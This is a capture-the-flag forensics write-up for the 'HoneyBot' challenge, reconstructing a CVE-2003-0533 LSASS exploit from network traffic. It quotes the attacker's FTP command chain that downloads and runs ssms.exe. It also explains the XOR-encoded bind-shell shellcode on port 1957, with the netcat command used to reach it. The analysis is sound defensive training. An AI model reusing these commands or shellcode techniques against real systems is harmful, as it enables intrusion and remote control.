---


[https://cyberdefenders.org/blueteam-ctf-challenges/honeybot/](https://cyberdefenders.org/blueteam-ctf-challenges/honeybot/)


### Q1 What is the attacker's IP address? {#3467b0eb61a480b59e3adf596c213c6f}





using network miner: 


192.150.11.111 [VIDCAM] (Linux)
98.114.205.102 [HOD] (Windows)


220 NzmxFtpd 0wns j0


### Q2 What is the target's IP address? {#3467b0eb61a48095ac4bd49cdd9952f4}


192.150.11.111 [VIDCAM] (Linux)


### Q3 Provide the country code for the attacker's IP address (a.k.a geo-location). {#3467b0eb61a48083878ff8794c0f101e}


US





### Q4 How many TCP sessions are present in the captured traffic? {#3467b0eb61a480b38635cf8059896931}





> 5


### Q5 How long did it take to perform the attack (in seconds)? {#3467b0eb61a4800f90f6ea6191e5bb00}


**`Statistics > Capture File Properties`** in Wireshark





### Q6 Provide the CVE number of the exploited vulnerability. {#3467b0eb61a4801180c3e1e1940fb4bb}


filter: smb


Active Directory Setup, DsRoleUpgradeDownlevelServer





**CVE-2003-0533** is a highly critical, remotely exploitable vulnerability in Microsoft Windows that became infamous for being the primary flaw exploited by the **Sasser worm**.


**Exploitation Mechanism:** Attackers can exploit this issue by sending a specially crafted malformed packet to the LSASS DCE/RPC endpoint (often accessible over TCP ports 139 and 445). This packet tricks the undocumented `DsRolerUpgradeDownlevelServer` function into attempting to create an excessively long debug log file, which overflows the buffer and allows arbitrary code execution.


CVE-2003-0533


### Q7 Which protocol was used to carry over the exploit? {#3467b0eb61a480a8aae7d54c60648a6b}


SMB


### Q8 Which protocol did the attacker use to download additional malicious files to the target system? {#3467b0eb61a480fb8d3de3330b410839}


i check the tcp stream





ftp


### Q9 What is the name of the downloaded malware? {#3467b0eb61a48061bed7ebeca736dff2}


echo open 0.0.0.0 8884 &gt; o&echo user 1 1 &gt;&gt; o &echo get ssms.exe &gt;&gt; o &echo quit &gt;&gt; o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe


### Q10 The attacker's server was listening on a specific port. Provide the port number. {#3467b0eb61a480cfb856c07c69e13a5f}


8884


### Q11 When was the involved malware first submitted to VirusTotal for analysis? Format: YYYY-MM-DD {#3467b0eb61a48048b224cbfb79873dba}





Start with MZ signature → obviously an executable


I download it and calculate the hash





 2007-06-27


### Q12 What is the key used to encode the shellcode? {#3467b0eb61a480269956e6bb90a64b5d}


Hacker phải dùng key mã hóa ở đây là xor để tránh bị EDR, EV phát hiện


```c++
scdbg -f shellcode.bin -s -1 -v
```


`Process Environment Block (PEB)`. The PEB is a structure in Windows that contains information about the currently running process, including loaded modules, memory layout, and execution state. By traversing this structure, the shellcode can locate the base address of essential system libraries, such as kernel32.dll, which contains critical functions needed for execution.


The CVE-2003-0533 exploit buffer overflow vulnerability of lssass.exe using NOP sled (a sequence of 0x90)





I use cyberchef remove all the NOP sled manually, save the shellcode and use scdbg:


```powershell
scdbg -f shellcode.bin /findsc
```





:::tip

- **`/findsc`**: Scans the entire file to locate potential starting points (offsets) for executable code. It identified the offset `0x70f`, which leads directly into a NOP (No-Operation) sled.

- **`GetProcAddress`** **&** **`LoadLibraryA`**: Shellcode cannot call functions directly like normal software does. It has to dynamically "ask" Windows to resolve the RAM addresses of essential functions like `CreateProcessA` or `bind`.

- **`LoadLibraryA(ws2_32)`**: It loads the Windows networking library (`ws2_32.dll`) to prepare for network communications.

- **`WSASocket`**: Creates a network socket.

- **`bind(port:1957)`**: This is the smoking gun for Q13. The malware is instructing Windows to "reserve port 1957 exclusively for me."

- **`listen`**: Switches the socket into a listening state, ready and waiting for an incoming connection from the outside (the attacker).

- **`accept`**: Pauses execution and waits. When the hacker attempts to connect to port 1957, this function is triggered to accept the connection and let the attacker into the system.

- **`CreateProcessA( cmd, )`**: Immediately after a successful `accept`, it spawns `cmd.exe`. **The key takeaway:** Within the shellcode's instructions, the standard input/output streams (stdin/stdout) of this `cmd.exe` process are redirected straight into the newly created network socket.

- **The Result**: The attacker simply needs to run the command `nc <victim_IP> 1957` from their machine, and they will instantly be presented with an interactive command prompt (CMD) for the victim's machine.

- **`closesocket`** **&** **`ExitThread`**: Once the attacker disconnects, the shellcode closes the network connections and terminates the thread gracefully. This is done to avoid causing a system crash or leaving error logs that would attract the attention of network defenders.

:::


then i use the scdbg -f shellcode.bin /findsc /v


`scdbg` to print out every single CPU instruction it executes step-by-step, rather than just summarizing the final API calls.


This is a classic shellcode technique called **"JMP-CALL-POP"** combined with an **XOR decoding loop**.





> 0x99


### Q13 What is the port number the shellcode binds to? {#3467b0eb61a4805fa004d4bfd7f33522}


The answer is shown in previous question


> 1957


### Q14 The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process? {#3467b0eb61a4804d970edd7ed40becb9}


> kernel32.dll


When regular software (Chrome, Word) start, the Windows operating system carefully loads it into memory and hands it a “map” of where all the important system files are located


Shellcode, however, is injected forcefully and illegally into memory. It is Position-Independent Code (PIC), meaning it is dropped in completely blind - doesn’nt know where it is, and it doesn’t have a map of where Windows functions are


To do anything malicious, the shellcode must find the master list of Windows functions. In Windows, the holy grail for this is kernel32.dll, because it contains a function called `GetProcAddress`. Once the shellcode has `GetProcAddress`. It can ask windows to find the address of any other function it needs




- In 32-bit Windows, a special CPU register called `fs` points to a data structure holding information about the current thread.
- Exactly at offset `0x30` inside that structure is a pointer to the **Process Environment Block (PEB)**.
- The PEB is essentially the internal "map" that Windows gave to the victim process.
- The subsequent instructions (`mov eax, [eax+0xc]`, `mov esi, [eax+0x14]`, etc.) show the shellcode opening that map, flipping to the "Loaded Modules" section (the LDR data structure), and reading the list of loaded DLLs. It loops through this list until it finds `kernel32.dll`.
- `mov esi, [eax+0x1c]`: move to `InInitializationOrderModuleList`. the Shellcode will loop through this list until it finds **`kernel32.dll`**.
